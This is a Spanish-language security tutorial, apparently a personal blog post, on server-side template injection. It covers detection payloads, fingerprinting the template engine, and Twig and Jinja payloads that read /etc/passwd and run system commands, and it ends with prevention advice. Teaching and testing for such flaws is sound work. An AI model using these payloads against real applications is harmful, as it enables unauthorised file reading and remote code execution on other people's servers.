 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload.

{% raw %}
```
${{<%[%'"}}%\. 
```
{% endraw %}

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

{% raw %}
* ```${7*7}```

* ```a{*comment*}b```

* ```${"z".join("ab")}```

* ```{{7*7}}```

* ```{{7*'7'}}```
{% endraw %}

#### Ejemplo

* Primero ingresamos ```${7*7}```, como no se interpretó significa que debemos seguir de la tabla la flecha que dice "no funciona".

    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload ```{{7*7}}```, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó ahora debemos validar ```{{7*'7'}}``` donde obtenemos como resultado 49, es decir siguiendo la tabla nos estamos enfrentando ante un motor de plantillas "Twig".

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la función ```_self``` es posible obtener más información de la plantilla.

{% raw %}
```
{{ _self }}
```
{% endraw %}


#### Local File Inclusion

El marco web PHP Symfony define filtros Twig adicionales y uno de estos filtros es ```file_excerpt``` que permite leer archivos locales del sistema.

{% raw %}
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
{% endraw %}

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de código, podemos utilizar una función incorporada de PHP como ```system```. Podemos pasar un argumento a esta función usando ```filter```.

{% raw %}
```
{{ ['id'] | filter('system') }}
```
{% endraw %}

### Explotación de Jinja

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción ```import```, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web.

{% raw %}
```
{{ config.items() }}
```
{% endraw %}

También podemos obtener información sobre las funciones integradas disponibles en el código fuente.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__ }}
```
{% endraw %}

#### Local File Inclusion

Para explotar esta vulnerabilidad debemos utilizar la función incorporada de Python ```open``` en conjunto con ```__builtins__```.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos debemos utilizar funciones proporcionadas por el módulo ```os```, ```system``` o ```popen```.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI, es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasar únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar funciones peligrosas como eval o import, y aislar el entorno de ejecución mediante contenedores o entornos separados.
